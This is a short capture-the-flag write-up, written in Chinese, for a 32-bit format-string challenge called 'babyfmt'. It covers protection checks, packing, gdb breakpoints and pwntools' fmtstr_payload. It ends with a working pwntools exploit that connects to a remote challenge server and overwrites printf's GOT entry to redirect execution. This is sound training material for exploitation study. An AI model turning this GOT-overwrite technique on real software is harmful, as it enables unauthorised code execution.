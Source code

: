 

### babyfmt

- 检查保护

```
    RELRO:    Partial RELRO     //可以修改got
    Stack:    No canary found     
    NX:       NX enabled
    PIE:      No PIE (0x8048000)    //基址不会变化,
```

- gift地址的获取

​	`giacomorecvuntil('\n', drop=true)`

```
gift: 0x8de91a0\n

67696674 3a20 3078 38646539316130  0a
//不需要这样手动完成
```

- 打包函数

  `比如将0xdeadbeef进行32位的打包，将会得到'\xef\xbe\xad\xde'`

- 下断点

​	gdb的断点在read函数的syscall之后，且注意arch = x86，否则调试不正常


- fmtstr_payload

  专门为32位格式化字符串设计，可以同时传多个数据

```
  p0x804a010 <printf@got.plt>:	0x0804843608048426
  
```

- exp

```
from pwn import *

context(os='linux',arch='x86',log_level='debug')
content = 0

if content == 1:
    giacomo = process('./babyfmt')
else:
    giacomo = remote("43.136.137.17",3913)


def main():
    # gdb.attach(giacomo,'b* 0x804868d')
    # pause()
    giacomo.recvuntil(b'gift: ')
    # gift = int(giacomo.recvuntil(b'\n', drop=True), 16)
    gift = 0x804859b
    print(">> gift:", hex(gift))
    printf_got = 0x804a010
    payload = fmtstr_payload(11, {printf_got: gift, printf_got+4:0})
    giacomo.send(payload)
    giacomo.recv()
    giacomo.send('1')
    giacomo.interactive()

main()
```

